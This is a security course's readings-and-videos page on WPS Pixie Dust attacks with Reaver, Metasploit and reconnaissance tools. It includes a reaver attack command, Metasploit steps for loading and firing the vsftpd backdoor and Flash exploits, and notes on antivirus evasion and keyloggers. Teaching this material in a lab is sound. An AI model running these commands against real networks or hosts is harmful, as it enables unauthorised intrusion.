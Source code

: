 # Readings and Videos<p>

## Reaver<p>
**Suggested brief reading:** [Offline Bruteforce Attack on Wifi Protected Setup](http://archive.hack.lu/2014/Hacklu2014_offline_bruteforce_attack_on_wps.pdf).<br />
 
 ##### Pixie Dust attack
  
![The old way](https://www.hackingtutorials.org/wp-content/uploads/2015/06/Wordpress-screen-21-e1433583260536.jpg)
  <p>

`reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -p`    
![With the pixie dust option](https://comfy.moe/hhojvn.jpg)
  <p>
 
 ![With the pixie dust option - result](https://comfy.moe/tyhfos.jpg)
  
<p>
  
## Metasploit<p>

##### n.b. any ebooks are cuny-wide resources but if you have issues with the proxy please search in the JJay OneSearch [here](https://onesearch.cuny.edu/primo-explore/search?vid=jj&mode=advanced&sortby=rank&lang=en_US).<br />
[A Tour of the Metasploit Framework](http://www.ethicalhackx.com/metasploit-framework/).<br />
**Suggested brief reading:** [Metasploit for Beginners](https://www.concise-courses.com/security/metasploit-for-beginners/).<br />
[A Tour of the Metasploit Framework](http://www.ethicalhackx.com/metasploit-framework/).<br />
[Hands on with Metasploit Express (ScienceDirect)](https://doi.org/10.1016/S1353-4858(10)70092-1).<br />
[Instant Metasploit Starter (ProQuest ebook)](https://onesearch.cuny.edu/primo-explore/fulldisplay?docid=TN_ingram_myilibrary9781299802681&context=PC&vid=jj&search_scope=cunywide&tab=cuny_tab&lang=en_US).<br />
[Mastering Metasploit (ProQuest ebook)](https://onesearch.cuny.edu/primo-explore/fulldisplay?docid=TN_ingram_myilibrary9781306823425&context=PC&vid=jj&search_scope=everything&tab=default_tab&lang=en_US).<br />
[SANS Metasploit Cheatsheet](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf).<br />
[Setting up a Metasploit postgresql database](https://www.offensive-security.com/metasploit-unleashed/using-databases/).<p>
<p>


<p>
Youtube: Metasploit for Beginners<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/cnkLv_RE3EI/0.jpg)](https://www.youtube.com/watch?v=cnkLv_RE3EI "MetaSploit tutorial for beginners")<p>
<p>
  

Hak5's Metasploit Minute series<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/NTdthBQYa1k/0.jpg)](https://www.youtube.com/watch?v=NTdthBQYa1k "5 Ways To Get Initial Access - Metasploit Minute")<p>

Hackersploit's Metasploit For Beginners - #1 - The Basics - Modules, Exploits & Payloads<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/8lR27r8Y_ik/0.jpg)](https://www.youtube.com/watch?v=8lR27r8Y_ik "Metasploit For Beginners - #1 - The Basics - Modules, Exploits & Payloads")<p>
<p>
  
  ### Demonstration and Things to Remember<br />
  <br />
  start postgresql before msfconsole<br />
  searching: type and platform<br />
  <p>
  commands:<br />
  
  * search type:exploit platform:windows flash
  * help
  * use exploit/windows/browser/adobe_flash_avm2 (turns red if loaded)
  * show options (customize the attack) and set SRVPORT 80
  
  ANOTHER and BETTER EXAMPLE:
  * use ZenMap to see software running and note network topography
  * db_nmap_status, db_nmap -T4 -A -v metasploitableIP
  * show (gives lots of info)
  * show info (good place to start)
  * show payloads (shows all of the payloads available)
  * show targets
  * search vsftpd
  * use exploit/unix/ftp/vsftpd_234_backdoor
  * info
  * set RHOST 10.______
  * finish with 'check' and 'exploit'
  <p>
  Modules directory:  /usr/share/metasploit-framework<br />
  NOPS for buffer overflows<br />
  Encoding for sneaking through antivirus<br />
  post for further attacks are being pwned (keyloggers, VNC, etc.)<br />
  post/windows/gather <--btc-mining and other scripts<br />
  
  Armitage - GUI for MSF
  
  ezsploit automation
  
### Reconnaisance:<br />
[CTFR](https://github.com/UnaPibaGeek/ctfr)<p>
![CTFR](https://a.pomf.cat/qqtejp.png)
 <p>
 
### Shodan: FREE full membership with a .edu address: 
 ![Shodan](https://a.pomf.cat/tbucxr.png)
 
 Register here: https://account.shodan.io/register and email support@shodan.io from the .edu email.
  
